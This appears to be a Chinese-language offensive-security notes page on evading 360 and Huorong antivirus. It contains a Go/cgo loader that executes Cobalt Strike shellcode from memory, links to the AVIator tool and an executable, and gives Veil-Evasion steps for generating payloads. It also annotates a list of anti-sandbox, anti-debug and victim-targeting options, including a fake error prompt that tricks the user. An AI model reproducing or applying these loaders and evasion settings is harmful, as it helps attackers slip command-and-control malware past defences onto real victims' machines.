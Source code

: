 


### go 内联免杀
360 + 火绒
```c
package main
/*
void call(char *code) {
int (*ret)() = (int(*)())code;
ret(); }
*/
import "C"
import "unsafe"
func main() {
buf := "cobaltstrike python shellcode(x86/x64)"
shellcode := []byte(buf)
C.call((*C.char)(unsafe.Pointer(&shellcode[0]))) }
```

### AVIator
360 + 火绒
``` 
https://github.com/Ch0pin/AVIator
```
[AvIator360](media/AvIator360.exe)

### cs + veil 
360 + 火绒
![-w377](https://i.loli.net/2021/01/18/LnvS6cHEbAgpDXO.jpg)


```bash
cs -> veil -> use 1 -> use 17 -> generate(bypass 360/火绒)
sh-4.4# veil
Veil>: use 1
Veil/Evasion>: use 17 //如下图
```
![-w767](https://i.loli.net/2021/01/18/QvVYamudNPxXLMq.jpg)

```
BADMACS 设置为Y表示 查看运行环境的MAC地址如果不是虚拟机才会执行payload （反调试）
CLICKTRACK 设置为4表示 表示需要4次点击才会执行
CURSORCHECK 设置为100表示 运行环境的硬盘大小如果大于100GB才会执行payload （反沙箱）
COMPILE_TO_EXE 设置为Y表示 编译为exe文件
HOSTNAME 设置为Comp1表示 只有在Hostname计算机名为Comp1时才会执行payload（指定目标环境 反沙箱的方式）
INJECT_METHOD 可设置为Virtual 或 Heap
MINPROCS 设置为20表示 只有运行环境的运行进程数大于20时才会执行payload（指定目标环境 反沙箱的方式）
PROCCHECK 设置为Y表示 只有运行环境的进程中没有虚拟机进程时才会执行payload（指定目标环境 反沙箱的方式）
PROCESSORS 设置为2表示 只在至少2核的机器中才会执行payload（指定目标环境 反沙箱的方式）
RAMCHECK 设置为Y表示 只在运行环境的内存为3G以上时才会执行payload（指定目标环境 反沙箱的方式）
SLEEP 设置为10表示 休眠10秒 以检测是否运行过程中被加速（反沙箱）
USERNAME 设置为Tom表示 只有在当前用户名为Tom的机器中才执行payload。
USERPROMPT 设置为Y表示 在injection之前提醒用户（提示一个错误框，让用户误以为该程序执行错误才无法打开）
DEBUGGER 设置为Y表示 当被调试器不被attached时才会执行payload （反调试）
DOMAIN 设置为Comp表示 受害者计算机只有加入Comp域中时，才会执行payload（指定目标环境 反沙箱的方式）
UTCCHECK 设置为Y表示 只在运行环境的系统使用UTC时间时，才会执行payload
```
```bash
[go/shellcode_inject/virtual>>]: generate
>> 3
```
![-w770](https://i.loli.net/2021/01/18/36BGibxXYslznAR.jpg)
